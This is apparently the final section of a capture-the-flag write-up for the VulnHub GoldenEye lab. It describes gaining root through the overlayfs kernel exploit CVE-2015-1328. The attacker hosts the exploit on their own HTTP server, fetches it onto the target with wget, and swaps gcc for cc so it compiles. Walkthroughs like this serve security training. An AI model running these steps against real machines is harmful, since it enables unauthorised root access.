 <br/><br/>
## Privilege Escalation
The machine has `wget` and `curl` so you could easily download an enumeration script.
But for this we only need to check the kernel version with `uname -a`.
>Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

This kernel version is vulnerable to `overlayfs` local privilege escalation ([CVE-2015-1328][CVE-2015-1328]).<br/>
Download the exploit to your machine. Edit the comments out and set up a simple Python HTTP server:
`python3 -m http.server`.<br/>
On the target machine let's move to the `/tmp` folder and download the exploit:<br/>
`wget your-ip:8000/ofs.c`.<br/>
Give execution permissions to the file `chmod +x ofs.c` and run it. We get an error: `gcc: not found`.
The exploit tries to compile the code with gcc, but gcc is not installed on the target machine.

Check for other compilers with `which cc` or `which g++`. `cc` seems to be installed so let's edit our exploit. <br/>
Call for **gcc** is on line 109:<br/>
`lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");`.<br/>
Switch it to use **cc**:<br/>
`lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");`.

Now we can run the exploit and we get a root shell.
The flag is inside the `/root` folder:
>Alec told me to place the codes here:<br/>
flag<br/>
If you captured this make sure to go here.....<br/>
/006-final/xvf7-flag/<br/>

![](/images/goldeneye/flag.jpg)<br/>

Thank you for reading :)

[CVE-2015-1328]: https://www.exploit-db.com/exploits/37292
[CVE-2013-3630]: https://www.exploit-db.com/exploits/29324
[GoldenEye]: https://www.vulnhub.com/entry/goldeneye-1,240/
[creosote]: https://www.vulnhub.com/author/creosote,584/
